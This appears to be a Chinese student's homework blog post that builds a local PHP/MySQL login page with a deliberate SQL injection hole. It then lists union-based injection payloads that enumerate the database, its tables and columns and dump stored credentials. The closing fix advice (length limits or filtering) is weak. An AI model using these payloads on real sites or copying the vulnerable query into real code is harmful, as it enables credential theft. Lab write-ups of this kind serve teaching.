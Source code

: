 ```yaml
---
title: 简单sql注入环境搭建及注入
date: 2019-10-12 15:31:12
tags: [sql注入，wampserver]
categories: sql注入
---
```


网络安全作业二，sql注入，搭建注入环境并注入，以及修补注入漏洞。（图片显示不了的话，点开链接就能看了）

<!--more-->

## 一、服务器搭建

### 1、安装wampserver

wampserver在windows下将Apache+PHP+Mysql 集成,一键操作，比较方便，在此选用是因为重点在sql注入上，而不是服务器的搭建，如果想透彻学习服务器搭建，建议不要使用集成环境，可以自己一个一个装，修改配置，最后将这些连到到一起，一个网站就搭好了。

### 2、安装后的可能会遇到的问题

安装完成后，打开，电脑右下角wampserver的图标应该是绿色的，如果是红色和橙色，那就是有些服务没有开启，在图标上左键查看是哪个服务没有开启。

![3~_25K4IG`WGJ646US7GU4B.png](https://i.loli.net/2019/10/12/nexdYS84XCuc2hv.png)

花花在安装的时候就是橙色的，原因是之前做的计网实验开启了IIS服务，与apache服务冲突了，所以关掉IIS服务就可以了，具体方法为：计算机——有键——管理——服务，找到IIS关闭即可。如果之前的数据库实验用的不是MySQL，而是SQL sever，则需要将SQL server服务也关闭，方法同上。

### 3、编写登录页和测试页

左键wampserver的小图标，打开www目录，进入，新建两个文件，login.php,test.php。编辑两个文件，代码如下：

login.php:

```php
<html>
<head>
<title>网络安全作业二</title>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
</head>
 <body >
<form action="test.php" method="post">
  <fieldset >
    <legend>自建sql注入平台</legend>
    <table>
      <tr>
        <td>用户名：</td>
        <td><input type="text" name="username"></td>
      </tr>
      <tr>
        <td>密  码：</td>
        <td><input type="text" name="password"></td>
      </tr>
      <tr>
        <td><input type="submit" value="提交"></td>
        <td><input type="reset" value="重置"></td>
      </tr>
    </table>
  </fieldset>
</form>
</body>
</html>
```

test.php:

```php
<?php
$pwd=$_POST['password'];
$uname=$_POST['username'];
//echo "您当前执行的sql语句为：" ;
//echo "select * from admin where passward='$pwd' and name='$uname'<br/>";
//echo "<hr>";
$mysqli = new mysqli('127.0.0.1','root','','sqlin'); 
if(mysqli_connect_errno()){
    printf("连接失败:%s<br>",mysqli_connect_error());
    exit();
}
$result = $mysqli->query("select * from admin where name='$uname'");
//print_r($result->fetch_array(MYSQLI_ASSOC));
if($row=mysqli_fetch_row($result))
{
	printf ("%s : %s",$row[0],$row[1]);
       	echo "<br>";
	echo "success！";
}
else
{
	echo "账号或密码错误！";
}
$mysqli->close();
$result->close();?>
```

然后在浏览器上输入http://localhost/login.php，即可进入登陆页面。

不过目前还没有数据库信息，在wampserver小图标左键打开mysql,进入，默认无密码，建立名为sqlin的数据库，和名为admin的表，由于以前做过数据库实验，命令在此不在赘述。

![_Z47~NFQ_K3X`XS_D~DT9~9.png](https://i.loli.net/2019/10/12/cC5yGfQdmr3JabB.png)

![6__2BL4Q_2N89_7SVVLTMF3.png](https://i.loli.net/2019/10/12/jINGSXkoeb6iME2.png)

这样环境就搭好了，可以开始注入了。

## 二、简单的sql注入

### 判断有几个显示位。

输入如下:

```bash
用户名：1' union select 1,2,3#
密码：111（任意）
```

发现报错，显示位不是3，重试

```bash
用户名：1' union select 1,2#
密码：111（任意）
```

![_AHNB_05K_I_RL5_6_9LCH7.png](https://i.loli.net/2019/10/12/Sas25K4ApngoYRV.png)

显示位为两位

### 确定表有几列

```bash
用户名：1' order by 3#
密码：111（任意）
```

报错，不是3列

```bash
用户名：1' order by 2#
密码：111（任意）
```

![G_I__P__36X9D_O_YK_OMO9.png](https://i.loli.net/2019/10/12/bSEAV4kptPBscaw.png)

表有2列

### 获取数据库名

```bash
用户名：1' union select 1,database() #
密码：111（任意）
```

![0FV6JIXIMQJY_WPE0~I__7T.png](https://i.loli.net/2019/10/12/NMXYBixLmqFGac1.png)

数据库名为sqlin

### 获取表名

```bash
用户名：1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
密码：111（任意）
```

![X_7_7ZT1P~YPSMBJY`@_026.png](https://i.loli.net/2019/10/12/eXykOGPu6CRo2cY.png)

表名为admin

### 获取列名

```bash
用户名：0' union select (select column_name from information_schema.columns where table_name='admin' limit 0,1),(select column_name from information_schema.columns where table_name='admin' limit 1,2)#
密码：111（任意）
```

![9KK6GFE1E52BIZXKGB90_NS.png](https://i.loli.net/2019/10/12/nuq1vxTB3s5HzXd.png)

列名为name,passward

### 获取数据

```bash
用户名：1' union select name,passward from admin#
密码：111（任意）
```

![M_8AP5UDLU_F3~Z2_E_GTGN.png](https://i.loli.net/2019/10/12/X5vC8eqN9zmx3MI.png)

得到用户名及密码

（建表的时候把password拼错了）😂

## 三、注入漏洞修补

由于select语句并没有对输入的用户名进行检测，而是拿来直接用，造成的注入漏洞，可以对输入的用户名进行长度限制，或者过滤。
